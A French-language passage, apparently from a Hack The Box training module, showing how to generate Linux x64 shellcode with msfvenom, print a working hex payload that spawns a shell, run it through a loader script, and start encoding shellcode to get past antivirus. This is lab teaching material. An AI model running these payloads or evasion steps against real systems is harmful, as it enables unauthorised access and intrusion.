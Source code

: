 Et cela fonctionne comme prévu.

* * * * *

Msfvenom
--------

Essayons `msfvenom`, qui est un autre outil courant que nous pouvons utiliser pour la génération de shellcode. Encore une fois, nous pouvons lister différentes charges utiles disponibles pour `Linux`et `x86_64`avec :

```
dsgsec@htb[/htb]$ msfvenom -l payloads | grep 'linux/x64'

linux/x64/exec                                      Execute an arbitrary command
...SNIP...

```

La `exec`charge utile nous permet d'exécuter une commande que nous spécifions. Passons ' `/bin/sh/`' pour le `CMD`, et testons le shellcode que nous obtenons :

```
dsgsec@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'

No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of hex file: 96 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05

```

Notez que ce shellcode n'est pas non plus aussi optimisé et court que notre shellcode. Essayons d'exécuter ce shellcode avec notre `loader.py`script :

```
dsgsec@htb[/htb]$ python3 loader.py '6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05'

$ whoami

root

```

Ce shellcode fonctionne également. Essayez de tester d'autres types d'appels système et de charges utiles dans `shellcraft`et`msfvenom`

* * * * *

Encodage du shellcode
---------------------

Un autre grand avantage de l'utilisation de ces outils est d'encoder nos shellcodes sans écrire manuellement nos encodeurs. L'encodage des shellcodes peut devenir une fonctionnalité pratique pour les systèmes dotés d'un antivirus ou de certaines protections de sécurité. Cependant, il faut noter que les shellcodes codés avec des encodeurs courants peuvent être faciles à détecter.
